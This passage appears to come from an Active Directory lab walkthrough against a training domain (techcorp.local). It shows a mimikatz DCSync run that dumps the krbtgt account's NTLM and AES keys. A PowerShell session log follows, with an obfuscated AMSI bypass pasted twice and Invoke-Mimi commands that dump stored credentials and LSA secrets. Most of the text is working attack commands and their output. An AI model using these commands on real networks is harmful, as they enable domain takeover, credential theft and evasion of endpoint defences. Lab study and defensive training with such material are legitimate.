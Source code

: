 - If yes, execute the DCSync attack to pull hashes of the `krbtgt` use.

Now, below commands can be used as `studentuser51` to get the hashes of `krbtgt` user.

```
C:\Windows\system32>echo %Pwn%

lsadump::dcsync

C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:us\krbtgt" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:us\krbtgt

[SNIP]

SAM Username         : krbtgt 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/5/2019 12:49:17 AM
Object Security ID   : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: b0975ae49f441adc6b024ad238935af5 🔑
    ntlm- 0: b0975ae49f441adc6b024ad238935af5
    lm  - 0: d765cfb668ed3b1f510b8c3861447173

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : US.TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 🔑

[SNIP]
```

---
---


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'